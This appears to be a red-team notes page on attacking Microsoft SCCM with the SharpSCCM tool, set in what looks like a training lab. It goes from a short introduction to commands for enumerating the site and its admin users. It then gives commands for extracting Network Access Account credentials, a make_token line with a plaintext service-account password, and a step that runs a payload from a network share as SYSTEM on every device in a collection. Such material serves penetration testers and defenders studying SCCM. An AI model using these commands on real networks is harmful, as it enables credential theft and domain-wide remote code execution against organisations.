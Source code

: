 ```yaml
---
description: Software Center Configuration Manager
---
```


# SCCM

Imagine you are a Network Administrator managing tens of computer labs and all staffs' laptops in a university. All the PCs, regarding OS, that is including Windows, Linux and MacOS are joined to the AD domain. One day, WannaCry become a thing and you are tasks to install security patches on all PCs. Are you going to boot up all PCs in the labs one by one and perform a Windows update through settings manually?

SCCM is a Microsoft product that is used for managing the deployment and configuration of devices in an organization. SCCM provides a comprehensive solution for tasks such as operating system deployment, software distribution, patch management, and hardware inventory. In the above scenario, installing security patches for WannaCry become easier with SCCM.

SCCM console installer can be downloaded [here](https://www.microsoft.com/en-us/evalcenter/download-microsoft-endpoint-configuration-manager).

## Enumeration

The first step when attacking SCCM is to get a feel for the deployment topology, which devices are being managed, and who the administrative users are using the [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) tool.&#x20;

```shell
SharpSCCM.exe local site-info --no-banner

-----------------------------------
CurrentManagementPoint: scm-1.cyberbotic.io
Name: SMS:S01
-----------------------------------

# OR run via PowerShell:
Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl
```

Depending on the user's privilege you have when you run the above command, you may see different results. Use the code below to enumerate SCCM administrative users.\


```powershell
SharpSCCM.exe get class-instances SMS_Admin --no-banner
SharpSCCM.exe get collection-members -n DEV --no-banner
SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner
```

## Attack Path

### **Export NAAs Credentials**

```powershell
SharpSCCM.exe local naa -m wmi --no-banner
SharpSCCM.exe local naa -m disk --no-banner
make_token cyberbotic.io\sccm_svc Cyberb0tic
```

### **Deploy Malicious Script**

```powershell
# To execute a command on every device in the DEV collection
SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner

# Execute dns_x64.exe payload with SYSTEM privilege with -s flag
SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner
```
